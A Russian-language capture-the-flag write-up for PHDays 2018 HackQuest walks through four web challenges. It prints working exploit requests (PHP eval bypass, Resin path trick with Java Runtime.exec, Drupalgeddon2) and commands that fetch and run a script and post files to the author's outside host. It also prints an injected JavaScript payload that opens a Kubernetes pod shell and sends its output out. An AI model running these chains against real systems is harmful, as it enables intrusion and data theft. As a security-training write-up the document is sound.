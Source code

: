 #PHDays2018HackQuest

1. mnogorock

   В исходном коде страницы таска `view-source:http://172.104.137.194/` находим следующее:

   ```html
   <!-- POST,command,inform() -->
   ```

   Отправив `command=inform()` POST-методом и получаем в ответ

   ```http
   HTTP/1.1 200 OK
   Date: Thu, 03 May 2018 10:23:54 GMT
   Server: Apache/2.4.18 (Ubuntu)
   Content-Length: 46
   Connection: close
   Content-Type: text/html; charset=UTF-8

   <!-- POST,command,inform() -->du u now de wei?
   ```

   После фаззинга параметра *command* понимаем, что там вайтлист по [PHP-лексемам](http://php.net/manual/ru/tokens.php) и все, что мы отправляем в *command=* попадает в *eval*. 

   С помощью доступных PHP-лексем, получим выполнение произвольного кода на сервере: 

   ```php
   array('system')[0]('cat /Le9iFudfj94Ef');
   ```



2. sincity

   Веб-сервер **Resin/4.0.55**

   Получить доступ в закрытый /dev можно при помощи обратного слеша `GET /dev\ HTTP/1.1`

   В ответе на `/dev\` находится листинг текущей директории

   ```
   array(3) {
     [0]=>
     string(9) "index.php"
     [1]=>
     string(8) "task.php"
     [2]=>
     string(17) "task.php~~~edited"
   }
   ```

   Исходники в `task.php~~~edited` 

   ```php
   <?php
   error_reporting(0);
   if(md5($_COOKIE['developer_testing_mode'])=='0e313373133731337313373133731337')
   {
    if(strlen($_GET['constr'])===4){
    	$c = new $_GET['constr']($_GET['arg']);
   	$c->$_GET['param'][0]()->$_GET['param'][1]($_GET['test']);
    }else{
    	die('Swimming in the pool after using a bottle of vodka');
    }
   }
   ?>
   ```

   Следующий запрос позволит исполнять произвольные команды на сервере:

   ```http
   GET /dev\task.php?constr=Java&arg=java.lang.Runtime&param[0]=getRuntime&param[1]=exec&test=wget+http://xymfrx.ru HTTP/1.1
   Host: 172.104.154.29
   Cookie: developer_testing_mode=240610708
   ```

   Флаг находится в **/**, чтобы получить листинг корневой директории на сервере, загрузим в **/tmp** скрипт, который выполнит **ls -la /** и положит ответ в файл, далее прочитать файл можно тем же **wget**-ом. 

   Создается файл с **touch**

   ```
   /dev\task.php?constr=Java&arg=java.lang.Runtime&param[0]=getRuntime&param[1]=exec&test=touch+/tmp/xymfrx_random2x
   ```

   Созданный файл заменяется на свой и делается исполняемым

   ```
   # script.sh
   #!/bin/bash

   ls -la 1>/tmp/xymfrx_ls
   ```

   ```
   /dev\task.php?constr=Java&arg=java.lang.Runtime&param[0]=getRuntime&param[1]=exec&test=wget+-q+http://xymfrx.ru/script.sh+-O+/tmp/xymfrx_random2x
   ```

   ```
   /dev\task.php?constr=Java&arg=java.lang.Runtime&param[0]=getRuntime&param[1]=exec&test=chmod+%2bx+/tmp/xymfrx_random2x
   ```

   Выполним скрипт

   ```
   /dev\task.php?constr=Java&arg=java.lang.Runtime&param[0]=getRuntime&param[1]=exec&test=/bin/bash+/tmp/xymfrx_random2x
   ```

   Заберем ответ

   ```
   /dev\task.php?constr=Java&arg=java.lang.Runtime&param[0]=getRuntime&param[1]=exec&test=wget+http://xymfrx.ru/+--post-file=/tmp/xymfrx_random2x
   ```

   В ответе находится название файла с флагом, читаем содержимое и сдаем флаг

3. enGeeks

   При обращении к папке *http://172.104.246.110/admino4ka/img* видим редирект на другой IP. 

   ```http
   HTTP/1.1 301 Moved Permanently
   Server: nginx
   Date: Thu, 03 May 2018 09:54:51 GMT
   Content-Type: text/html; charset=iso-8859-1
   Content-Length: 240
   Connection: close
   Location: http://139.162.190.95:63425/img/
   X-Proxy-Cache: MISS

   <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
   <html><head>
   <title>301 Moved Permanently</title>
   </head><body>
   <h1>Moved Permanently</h1>
   <p>The document has moved <a href="http://139.162.190.95:63425/img/">here</a>.</p>
   </body></html>

   ```

   На этом IP размещены развернутые движки: Joomla, Wordpress и Drupal. Как к ним обращаться понятно из предыдущего хоста, ссылки на развернутые движки вида `wordpress.local` находятся в */admino4ka* и намекают на виртуальные хосты. Следуя подсказке *Drupalgeddon2 is still alive*, идем сразу в Drupal и пытаемся просплойтить Drupalgeddon2:

   ```http
   POST /user/register%3Felement_parents=timezone/timezone/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
   Host: drupal.local:63425
   User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:59.0) Gecko/20100101 Firefox/59.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
   Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
   Accept-Encoding: gzip, deflate
   X-Forwarded-For: 127.0.0.1
   Referer: http://drupal.local:63425/user/register
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 112
   Connection: close
   Upgrade-Insecure-Requests: 1

   form_id=user_register_form&_drupal_ajax=1&timezone[a][#lazy_builder][]=system&timezone[a][#lazy_builder][][]=ls
   ```

   В README.md предыдущего хоста еще одна подсказка на то, где искать флаг. Следуя ей, получим все файлы с разрешением *.jpg* из */var/www/*. Первое, что бросается в глаза, файл загруженный в блоге с Wordpress. Открываем фотографию - флаг на листке за чуваком.

   ![flag](img/engeeks.jpg)

   ​

4. Rubik

   Сайт на Wordpress-е с открытой регистрацией. 

   При открытии постов на сайте, можно заметить кнопочку **Print**, с помощью которой генерится PDF-ка с содержимым поста. 

   Первое, что приходит в голову, найти как заинжектиться в текст поста и попробовать так сгенерить PDF. Хмм. Вспоминаем, что на сайте открыта регистрация и регистрируемся.

   После реги доступна функциональность создания постов на сайте. Задача: вставить свой *javascript*-код и сгенерить с ним PDF. 

   Но вот проблема, wordpress, при создании поста, не позволяет рендерить html-теги, кроме тех, что предназначены для форматирования текста. 

   ...

   Еще до регистрации, в последнем посте можно заметить frame с плеером Youtube. Тогда можно было не обратить на это внимание, но сейчас.. 

   Пробуем вставить свой <iframe> при создании поста - и ничего!

   Пробуем снова вставить тот же frame, только вместо символов `<>` используем их html-сущности `&lt;&gt;`. И у нас получается! 

   Можем открыть свой сайт в iframe и читать произвольные файлы на сервере с помощью JS, но выкатили подсказку: *There is no need to read local files. The blog is not the only service on the host.*

   Окей. 

   Поищем что-нибудь на других портах. 

   На `127.0.0.1:8080` находим Kubernetes Dashboard. 

   >**Kubernetes Dashboard** is a general purpose, web-based UI for Kubernetes clusters. It allows users to manage applications running in the cluster and troubleshoot them, as well as manage the cluster itself.

   Забираем JS-файл, который загружается на странице `http://127.0.0.1:8080/static/app.fe2776ce.js` и копаемся в нем. 

   Спустя немного времени, натыкаемся на API метод для открытия шелла на тачке. 

   ```javascript
   aa.onTerminalReady = function() {
       this.io = this.b.io.push();
       this.j("api/v1/pod/" + this.c.objectNamespace + "/" + this.podName + "/shell/" + this.container).get({}, this.ud.bind(this))
   };
   aa.ud = function(a) {
       this.a = new SockJS("api/sockjs?" + a.id);
       this.a.onopen = this.pd.bind(this, a);
       this.a.onmessage = this.od.bind(this);
       this.a.onclose = this.nd.bind(this)
   };
   ```

   Для того, чтобы открыть шелл, нужно узнать какой у нее namespace, pod и имя контейнера.

   > **Namespace**: Kubernetes supports multiple virtual clusters backed by the same physical cluster. These virtual clusters are called [namespaces](https://kubernetes.io/docs/tasks/administer-cluster/namespaces/). They let you partition resources into logically named groups.

   > **Pod**: A *pod* (as in a pod of whales or pea pod) is a group of one or more containers (such as Docker containers), with shared storage/network, and a specification for how to run the containers.

   Узнаем, что в неймспейсе `default` находится pod с названием `flagggg-d54f5c54f-nvb26` и с именем контейнера `flag`. 

   Обратившись к API для открытия терминала, получаем **id** для обращения с ним по веб-сокетам. Остается открыть соединение и отправить команду для исполнения.

   ​
   Прошло пару часов пока я не осознал, что пора ставить себе *minikube*, потому что тех действий, что я выполнял, было недостаточно. 

   После установки, идем в Kubernetes Dashboard и следим за тем, какие запросы идут для открытия шелла. Правим скрипт и параллельно тестируем его на локальном Dashboard-е. Несколько раз спотыкаемся об экранирование и скрипт готов. 

   ```html
   xymfrx

   <script src="http://cdn.jsdelivr.net/npm/sockjs-client@1/dist/sockjs.min.js"></script>

   <script>

   function reqListener () {

       var encoded = encodeURI(this.responseText);
       var b64 = btoa(this.responseText);
       var raw = this.responseText;
   	
   	var json = JSON.parse(raw);

   	var sock = new WebSocket("ws://127.0.0.1:8080/api/sockjs/418/1fssnuot/websocket?" + json.id);
   	//var sock = new SockJS("http://127.0.0.1:8080/api/sockjs/418/1fssnuot/websocket?" + json.id);

   	sock.onopen = function() {
   		sock.send("[\"{\\\"Op\":\\\"bind\\\",\\\"SessionID\\\":\\\"" + json.id + "\\\"}\"]");
   		sock.send("[\"{\\\"Op\\\":\\\"resize\\\",\\\"Cols\\\":120,\\\"Rows\\\":33}\"]");
   		sock.send("[\"{\\\"Op\\\":\\\"stdin\\\",\\\"Data\\\":\\\"ls\r\\\"}\\\"]");

   		var oReq223 = new XMLHttpRequest();
   		oReq223.open("GET","http://xymfrx.ru/?otkroy_padla",true);
   		oReq223.send();
   	};

   	sock.onmessage = function(e) {
   		var oReq223 = new XMLHttpRequest();
   		oReq223.open("GET","http://xymfrx.ru/?ale_garazh=" + btoa(e.data),true);
   		oReq223.send();
   	};

   	sock.onclose = function(event) {
   		var oReq223 = new XMLHttpRequest();
   		oReq223.open("GET","http://xymfrx.ru/?close="+event.code+"&asd="+event.reason,true);
   		oReq223.send();
   	};

   	sock.onerror = function(error){
   		var oReq223 = new XMLHttpRequest();
   		oReq223.open("GET","http://xymfrx.ru/error?" + error.message,true);
   		oReq223.send();
   	};

   } 

   var oReq = new XMLHttpRequest(); 
   oReq.addEventListener("load", reqListener); 
   oReq.open("GET", "http://127.0.0.1:8080/api/v1/pod/default/flagggg-d54f5c54f-nvb26/shell/flag");
   oReq.send();

   </script>
   ```
   ​

   Считываем ответы у себя в логах и радуемся!